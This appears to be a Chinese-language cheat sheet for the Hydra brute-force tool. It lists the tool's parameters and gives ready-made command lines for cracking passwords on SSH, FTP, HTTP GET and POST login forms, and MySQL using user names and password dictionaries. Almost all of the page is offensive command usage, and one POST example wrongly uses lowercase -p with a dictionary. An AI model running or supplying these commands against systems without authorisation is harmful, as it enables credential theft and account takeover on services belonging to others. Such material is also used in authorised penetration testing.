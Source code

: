 # 爆破工具hydra

### 参数选项

```
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ipservice 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项
```

### 常用命令破解

#### ssh破解

1. hydra -l user -P 密码字典 -t 线程 -vV -e ns ip ssh
2. hydra -l user -P 密码字典 -t 线程 -o xxx.log -vV ip ssh

#### FTP破解

1. hydra ftp://ip -l user -P 密码字典 -t 线程(默认16) -vV
2. hydra ftp://ip -l user -P 密码字典 -e ns -vV

#### Web破解，GET

1. hydra -l user -P 密码字典 -t 线程 -vV -e ns ip http-get /admin/
2. hydra -l user -P 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

#### Web破解,  POST

1. hydra -l user -p 密码字典 ip -s port http-post-form "/:password=^PASS^:Invalid password"

![hydra](.\1.png)

#### mysql破解

1. hydra -l root –p pass.txt –e ns 127.0.0.1 mysql

